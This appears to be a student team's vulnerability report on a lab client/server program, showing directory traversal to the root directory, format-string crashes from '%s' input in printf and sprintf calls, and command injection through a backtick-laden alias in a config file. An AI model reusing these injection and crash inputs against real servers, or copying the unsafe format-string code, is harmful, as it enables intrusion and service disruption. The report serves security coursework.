 ## Team 2

### Directory Traversal

* We can directly cd into root directory.

```
cd $/
Message: Working directory changed!

ls
total 96
drwxr-xr-x   2 root root  12288 Mar 13 05:08 bin
drwxr-xr-x   4 root root   4096 Mar  6 05:10 boot
drwxr-xr-x  21 root root   4500 Mar 15 08:50 dev
drwxr-xr-x 136 root root  12288 Mar 20 05:10 etc
drwxr-xr-x   2 root root   4096 Apr 12  2016 home
drwxr-xr-x   2 root root      0 Mar 26 18:14 homes
lrwxrwxrwx   1 root root     32 Aug 31  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  18 root root   4096 Feb 22 10:53 lib
drwxr-xr-x   2 root root   4096 Jan 23 05:09 lib64
drwx------   2 root root  16384 Aug 31  2017 lost+found
drwxr-xr-x   3 root root   4096 Aug 31  2017 media
...
```
* This can be used to overwrite the configuration file and thus allows for command injection when the server restarts.

### Format string

* All commands sent by the user are printed first. So we can crash the server by sending a bunch of %s. 
```C
n = read(sock_id_new,internal,sizeof(internal));
printf(internal);
```
```
Client:

%s%s%s%s%s%s%s%s
Error: read failed!
mc02 63 $

Server:

mc02 73 $ ./server 
Segmentation fault (core dumped)
mc02 74 $
```

* The server when starting up, takes a few arguments which are not used. But these arguments are copied using an snprintf command.
```C
char givenArgs[10];
for(int i=1; i<argc; i++)
{
  if(strlen(argv[i]) < 10) 
  {
    sprintf(givenArgs,argv[i]);					
  }
      
      
mc02 75 $ ./server %s%s%s%s
Segmentation fault (core dumped)
mc02 76 $
```
### Command injection

* The alias commands do not take user parameters, so we need to modify the config file directly for this
```
Sploit.conf:

alias echo echo hi`date`

Client:

mc02 108 $ ./client 127.0.0.1 12345
echo
hiMon Mar 26 19:55:02 EDT 2018

```
